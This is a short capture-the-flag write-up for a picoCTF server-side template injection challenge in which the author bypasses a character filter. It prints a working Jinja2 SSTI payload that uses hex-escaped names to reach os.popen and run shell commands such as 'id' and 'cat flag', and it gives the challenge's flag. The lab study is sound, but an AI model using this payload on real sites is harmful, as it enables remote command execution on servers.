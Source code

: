 # URL
https://play.picoctf.org/practice/challenge/488?page=1&search=sst
# Challenge
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.

# Method of Solving
* I know the website runs jinja2 since the input {{7*'7'}} yields 7777777
* With this knowledge, I searched up SSTI Jinja injections, which led me to this website https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
* On the website lies a payload we can test: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
* This payload returns the uid, which is root, so their way of bypassing the WAF worked!
* All I had to do was change the value "id" into "cat flag", which resulted in the flag being printed on the website!
* picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}
